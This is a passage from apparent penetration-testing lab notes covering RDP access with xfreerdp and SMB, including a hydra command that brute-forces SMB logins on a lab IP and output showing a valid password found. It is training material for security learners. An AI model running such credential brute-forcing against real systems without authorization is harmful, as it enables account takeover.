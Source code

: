 
#### xFreeRDP - gui for RDP
```c
r3so1v3@htb[/htb]$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

```c
r3so1v3@htb[/htb]$ xfreerdp /v:10.129.42.197 /u:user /p:password

...SNIP...
New Certificate details:
        Common Name: WINSRV
        Subject:     CN = WINSRV
        Issuer:      CN = WINSRV
        Thumbprint:  cd:91:d0:3e:7f:b7:bb:40:0e:91:45:b0:ab:04:ef:1e:c8:d5:41:42:49:e0:0c:cd:c7:dd:7d:08:1f:7c:fe:eb

Do you trust the above certificate? (Y/T/N) Y
```
![](https://i.imgur.com/BtMD3TI.png)

## SMB

[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks. SMB is often referred to as a file system, but it is not. SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

SMB is also known as [Common Internet File System](https://cifs.com/) (`CIFS`). It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS. In addition, we will often encounter [Samba](https://wiki.samba.org/index.php/Main_Page), which is an open-source implementation of the above functions. For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.

#### Hydra - SMB
```c
r3so1v3@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:37:31
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid passwords found
```

